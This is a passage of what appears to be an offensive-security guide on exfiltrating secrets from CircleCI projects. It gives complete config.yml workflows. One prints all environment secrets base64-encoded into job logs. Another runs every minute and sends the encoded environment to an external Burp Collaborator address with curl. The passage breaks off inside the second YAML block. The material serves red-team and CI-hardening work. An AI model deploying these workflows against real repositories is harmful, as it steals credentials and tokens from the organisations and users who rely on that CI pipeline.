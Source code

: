 Checking the code you can find **all the secrets names** that are being **used** in each `.circleci/config.yml` file. You can also get the **context names** from those files or check them in the web console: _https://app.circleci.com/settings/organization/github/\<org_name>/contexts_.

#### Exfiltrate Project secrets

> [!WARNING]
> In order to **exfiltrate ALL** the project and context **SECRETS** you **just** need to have **WRITE** access to **just 1 repo** in the whole github org (_and your account must have access to the contexts but by default everyone can access every context_).

> [!CAUTION]
> The "**Import Variables**" functionality allows to **import variables from other projects** to this one. Therefore, an attacker could **import all the project variables from all the repos** and then **exfiltrate all of them together**.

All the project secrets always are set in the env of the jobs, so just calling env and obfuscating it in base64 will exfiltrate the secrets in the **workflows web log console**:

```yaml
version: 2.1

jobs:
  exfil-env:
    docker:
      - image: cimg/base:stable
    steps:
      - checkout
      - run:
          name: "Exfil env"
          command: "env | base64"

workflows:
  exfil-env-workflow:
    jobs:
      - exfil-env
```

If you **don't have access to the web console** but you have **access to the repo** and you know that CircleCI is used, you can just **create a workflow** that is **triggered every minute** and that **exfils the secrets to an external address**:

```yaml
version: 2.1

jobs:
  exfil-env:
    docker:
      - image: cimg/base:stable
    steps:
      - checkout
      - run:
          name: "Exfil env"
          command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
  exfil-env-workflow:
    triggers:
      - schedule:
          cron: "* * * * *"
          filters:
            branches:
              only:
                - circleci-project-setup
    jobs:
```